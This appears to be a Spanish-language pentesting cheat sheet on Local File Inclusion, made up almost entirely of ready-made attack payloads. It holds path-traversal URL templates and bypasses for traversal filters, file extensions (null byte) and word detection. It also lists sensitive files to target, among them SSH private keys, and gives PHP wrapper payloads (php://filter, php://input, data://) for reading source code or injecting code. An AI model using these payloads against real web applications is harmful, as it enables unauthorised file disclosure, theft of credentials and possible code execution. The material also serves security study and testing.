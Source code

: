 ```yaml
---
title: "LFI (Local File Inclusion)"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [CACFD9A6]
image:
    path: ../../assets/Miniaturas/VectoresDeAtaque/lfi.jpg
    width: 800
    height: 500
---
```


#### Recursos
- https://github.com/synacktiv/php_filter_chain_generator


## Ejemplos

```bash
# Básico
http://<web>/<file>.php?file=../../../../../../../../../<file>

# Bypass Traversal
http://<web>/<file>.php?file=..../..../..../..../..../..../..../<file>

# Cargas Útiles
http://<web>/<file>.php?file=/<folder>//<file>

# ByPass Extension (Null Byte)
http://<web>/<file>.php?<file>=<filename>%00.php

# ByPass Detected Especific Word
http://<web>/<file>.php?<file>=<filename>/.
```

## Archivos interesantes

```js
/etc/hosts
/home/<user>/.ssh/id_rsa
/home/<user>/.ssh/id_rsa.pub
/var/www/html/
/proc/net/tcp
```

### Wrappers
```bash
php://filter/convert.base64-encode/resource=<filename>.php
php://filter/read=string.rot13/resource=<filename>.php
php://filter/convert.iconv.utf-8.utf-16/resource=<filename>.php
php://input (method: POST)
data://text/plain;base64,<base64-code>
```

